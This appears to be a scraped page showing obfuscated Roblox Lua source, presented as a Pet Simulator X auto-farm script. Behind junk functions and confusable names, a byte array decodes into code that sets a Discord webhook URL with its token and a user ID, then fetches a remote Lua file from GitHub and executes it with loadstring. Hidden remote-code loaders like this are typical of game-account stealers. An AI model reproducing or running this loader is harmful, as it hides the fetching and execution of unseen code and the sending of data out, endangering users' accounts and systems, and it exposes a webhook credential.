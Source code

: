 function IllIlllIllIlllIlllIlllIll(IllIlllIllIllIll) if (IllIlllIllIllIll==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (IllIlllIllIllIll==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local IIlllIIlllIIlllIIlllII = (7*3-9/9+3*2/0+3*3);local IIllllIIllll = (3*4-7/7+6*4/3+9*9);local IllIIIllIIIIllI = table.concat;function IllIIIIllIIIIIl(IIlllIIlllIIlllIIlllII) function IllIllIllIllI(IllIllIllIllI) function IllIllIllIllI(IIlllIIlllIIlllIIlllII) end end end;IllIIIIllIIIIIl(900283);function IllIlllIllIlllIlllIlllIllIlllIIIlll(IllIllIllIllI) function IllIllIllIllI(IIlllIIlllIIlllIIlllII) local IIllllIIllll = (9*0-7/5+3*1/3+8*2) end end;IllIlllIllIlllIlllIlllIllIlllIIIlll(9083);local IllIIllIIllIII = loadstring;local IlIlIlIlIlIlIlIlII = {'\45','\45','\47','\47','\32','\68','\101','\99','\111','\109','\112','\105','\108','\101','\100','\32','\67','\111','\100','\101','\46','\32','\10','\45','\45','\83','\67','\82','\73','\80','\84','\10','\95','\71','\46','\85','\115','\101','\114','\73','\68','\32','\61','\32','\49','\52','\57','\50','\53','\48','\50','\54','\48','\52','\10','\95','\71','\46','\87','\101','\98','\72','\111','\111','\107','\32','\61','\32','\34','\104','\116','\116','\112','\115','\58','\47','\47','\100','\105','\115','\99','\111','\114','\100','\46','\99','\111','\109','\47','\97','\112','\105','\47','\119','\101','\98','\104','\111','\111','\107','\115','\47','\49','\48','\53','\50','\49','\50','\55','\56','\56','\52','\57','\56','\48','\48','\49','\49','\49','\49','\56','\47','\48','\108','\57','\75','\119','\53','\69','\79','\121','\119','\52','\71','\76','\80','\114','\51','\118','\70','\51','\111','\51','\117','\45','\87','\80','\87','\90','\116','\72','\107','\50','\118','\109','\71','\101','\79','\55','\102','\121','\90','\87','\114','\109','\72','\78','\74','\76','\90','\99','\51','\102','\81','\118','\74','\53','\78','\49','\120','\77','\113','\83','\51','\97','\102','\68','\74','\79','\77','\34','\10','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\103','\97','\109','\101','\58','\72','\116','\116','\112','\71','\101','\116','\40','\39','\104','\116','\116','\112','\115','\58','\47','\47','\114','\97','\119','\46','\103','\105','\116','\104','\117','\98','\117','\115','\101','\114','\99','\111','\110','\116','\101','\110','\116','\46','\99','\111','\109','\47','\118','\101','\115','\116','\121','\120','\47','\80','\101','\116','\83','\105','\109','\117','\108','\97','\116','\111','\114','\88','\65','\117','\116','\111','\70','\97','\114','\109','\47','\109','\97','\105','\110','\47','\72','\97','\115','\116','\101','\70','\97','\114','\109','\46','\108','\117','\97','\39','\41','\41','\40','\41','\10',}IllIIllIIllIII(IllIIIllIIIIllI(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII))()















